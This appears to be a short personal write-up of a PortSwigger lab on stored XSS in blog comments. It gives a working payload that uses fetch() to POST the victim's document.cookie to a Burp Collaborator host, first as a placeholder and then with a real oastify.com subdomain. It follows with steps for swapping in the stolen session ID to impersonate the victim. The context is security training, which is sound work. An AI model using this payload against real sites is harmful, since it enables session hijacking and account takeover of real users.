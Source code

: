 # Exploiting cross-site scripting to steal cookies

## This lab contains a [stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored) vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim.

___
#stealing_cookies

### Hint:

```javascript
<script> fetch('https://BURP-COLLABORATOR-SUBDOMAIN', { method: 'POST', mode: 'no-cors', body:document.cookie }); </script>
```

step 1

copy url from burpcollector
`t5z4yu4ozlb99987tz4q3wu3puvljc71.oastify.com`

```javascript
<script> fetch('https://t5z4yu4ozlb99987tz4q3wu3puvljc71.oastify.com', { method: 'POST', mode: 'no-cors', body:document.cookie }); </script>
```

submit comment

pull from burp collector
copy session id from HTTP request
intercept home page
change session id and in proxy option mark response on
then forward lab solved
